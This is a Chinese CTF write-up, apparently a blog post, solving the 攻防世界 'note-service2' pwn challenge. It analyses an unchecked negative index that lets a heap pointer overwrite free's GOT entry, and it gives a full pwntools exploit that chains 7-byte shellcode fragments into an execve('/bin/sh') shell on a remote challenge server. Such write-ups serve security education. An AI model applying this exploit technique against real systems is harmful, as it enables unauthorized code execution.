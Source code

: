 ```yaml
---
title: 攻防世界-note-service2
date: 2020-10-01 18:44:22
tags: 
 - PWN
 - CTF
categories: "PWN"
banner_img: /pic/note.jpg
---
```

# 攻防世界-note-service2

<!-- more -->

## checksec

```shell
[*] '/home/giantbranch/Desktop/pwn/note-service2/note'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

## ida分析

{% asset_img note-ida1.png %}

程序只实现了add和del两个功能。

{% asset_img note-ida2.png %}

add只能申请0x8字节的大小的chunk，但是一个chunk最少要包含fd与bk指针所以其实是数据区是16字节。经过测试写入7字节数据程序正常运行，而写入8字节后程序崩溃。qword_2020A0未对数组边界进行检测，所以可以在任意地址写入堆的地址。

```shell
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /home/giantbranch/Desktop/pwn/note-service2/note
    0x555555755000     0x555555756000 r-xp     1000 1000   /home/giantbranch/Desktop/pwn/note-service2/note
    0x555555756000     0x555555757000 rwxp     1000 2000   /home/giantbranch/Desktop/pwn/note-service2/note
    0x555555757000     0x555555778000 rwxp    21000 0      [heap]
    0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7bcd000     0x7ffff7dcd000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dcd000     0x7ffff7dd1000 r-xp     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd1000     0x7ffff7dd3000 rwxp     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd3000     0x7ffff7dd7000 rwxp     4000 0      
    0x7ffff7dd7000     0x7ffff7dfd000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7fdc000     0x7ffff7fdf000 rwxp     3000 0      
    0x7ffff7ff7000     0x7ffff7ffa000 r--p     3000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r-xp     1000 25000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffd000     0x7ffff7ffe000 rwxp     1000 26000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffe000     0x7ffff7fff000 rwxp     1000 0      
    0x7ffffffde000     0x7ffffffff000 rwxp    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
```

堆栈都可以执行，但是栈有canary保护，所以在堆中写shellcode。7字节的数据不够将shellcode完整的写入，所以要多次申请chunk将shellcode分散到每个chunk中，最后还要进行跳转。

下面我们分析如何构造堆chunk，因为pwntools无法直接生成jmp short xxx这样的代码，但是我们知道jmp其实就是修改了rip的值，使其加上或减去对应的偏移，我们在源程序中寻找jmp机器码的规律

{% asset_img note-ida3.png %}

找到多个jmp指令

{% asset_img note-ida4.png %}

这些jmp指令的机器码都有EB，可以推断EB代表了jmp，我们知道汇编指令的的参数会在机器码中有所体现，所以我们推断一下偏移量

0xED1-0xE94-0x2=3B

0xED1-0xEA0-0x2=2F

jmp指令本身占两个字节，跳转的偏移是对应地址减去执行jmp后的地址。

{% asset_img note-ida5.png %}

那么我们要的偏移就是0x1+0x8+0x8+0x8=0x19，即EB 19。

下面寻找got与数组的偏移，通过修改got表使程序跳转到shellcode处，

```ida
.got.plt:0000000000202000 _got_plt        segment para public 'DATA' use64
.got.plt:0000000000202000                 assume cs:_got_plt
.got.plt:0000000000202000                 ;org 202000h
.got.plt:0000000000202000                 dq offset stru_201DF8
.got.plt:0000000000202008 qword_202008    dq 0                    ; DATA XREF: sub_880↑r
.got.plt:0000000000202010 qword_202010    dq 0                    ; DATA XREF: sub_880+6↑r
.got.plt:0000000000202018 off_202018      dq offset free          ; DATA XREF: _free↑r
.got.plt:0000000000202020 off_202020      dq offset puts          ; DATA XREF: _puts↑r
.got.plt:0000000000202028 off_202028      dq offset __stack_chk_fail
.got.plt:0000000000202028                                         ; DATA XREF: ___stack_chk_fail↑r
.got.plt:0000000000202030 off_202030      dq offset printf        ; DATA XREF: _printf↑r
.got.plt:0000000000202038 off_202038      dq offset memset        ; DATA XREF: _memset↑r
.got.plt:0000000000202040 off_202040      dq offset read          ; DATA XREF: _read↑r
.got.plt:0000000000202048 off_202048      dq offset __libc_start_main
.got.plt:0000000000202048                                         ; DATA XREF: ___libc_start_main↑r
.got.plt:0000000000202050 off_202050      dq offset malloc        ; DATA XREF: _malloc↑r
.got.plt:0000000000202058 off_202058      dq offset setvbuf       ; DATA XREF: _setvbuf↑r
.got.plt:0000000000202060 off_202060      dq offset atoi          ; DATA XREF: _atoi↑r
.got.plt:0000000000202068 off_202068      dq offset exit          ; DATA XREF: _exit↑r
.got.plt:0000000000202068 _got_plt        ends
.got.plt:0000000000202068
```

0x2020A0-0x202018=0x88，0x88/8=0x11，所以qword_2020A0[-17]处就是free的got表。在我们执行free函数时，会把对应堆的数据区地址传入free作为其第一个参数，也就是说参数的地址会被放入rdi中然后执行got表处对应代码。

选一段较短的**shellcode**

```assembly
mov rdi,&(/bin/sh)
mov rax,0x3b
mov rsi,0
mov rdx,0
syscall
```

但是
```assembly
mov rdi,&(/bin/sh)
```
这个指令所占字节太长了，我们无法直接写入，所以通过修改got表的方式进行传递参数。


## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"

p=remote('220.249.52.133',59183)
#p=process('./note')
elf = ELF('./note')

def add(index,content):
	p.sendlineafter("choice>>","1")
	p.sendlineafter("index:",str(index))
	p.sendlineafter("size:","8")
	p.sendlineafter("content:",content)
	sleep(0.5)

def free(index):
	p.sendlineafter("choice>>","4")
	p.sendlineafter("index:",str(index))
	sleep(0.5)

add(0,"/bin/sh")
add(-17,asm("xor rsi,rsi")+"\x90\x90\xeb\x19")
add(1,asm("mov eax, 0x3b")+"\xeb\x19")   #\x90=nop
add(2,asm("xor rdx, rdx")+"\x90\x90\xeb\x19")
add(3,asm("syscall").ljust(7,"\x90"))
free(0)

p.interactive()
```

```assembly
;执行的流程就是，free(0)，将"/bin/sh"的地址传入rdi
;因为修改了got表，所以并未执行原本free的代码
;而是
xor rsi,rsi
nop
nop
jmp short 0x19
mov eax,0x3b
jmp 0x19
xor rdx.rdx
nop
nop
jmp 0x19
nop
syscall
```

## flag

```reStructuredText
cyberpeace{a8dd383d49fa3479e60ef723b5821dcf}
```

## 总结

考察的地方很多，

### 1、汇编指令jmp的原理

观察机器码，可以发现立即数（idata）会在机器码中有所体现。jmp指令机器码中以补码的形式体现。

```assembly
jmp short s			;段内短转移，（ip）=（ip）+8位位移
```

具体参考：[汇编语言（2）](https://niebelungen-d.github.io/2020/10/01/%E6%B1%87%E7%BC%96%E8%AF%AD%E8%A8%80%EF%BC%882%EF%BC%89/)
### 2、heap
chunk的结构，最小chunk至少包含fd与bk指针，对于32位程序是8字节，64位位16字节。
### 3、参数的传递
64位程序使用寄存器进行传参，进行函数调用时，首先要进行参数的传递。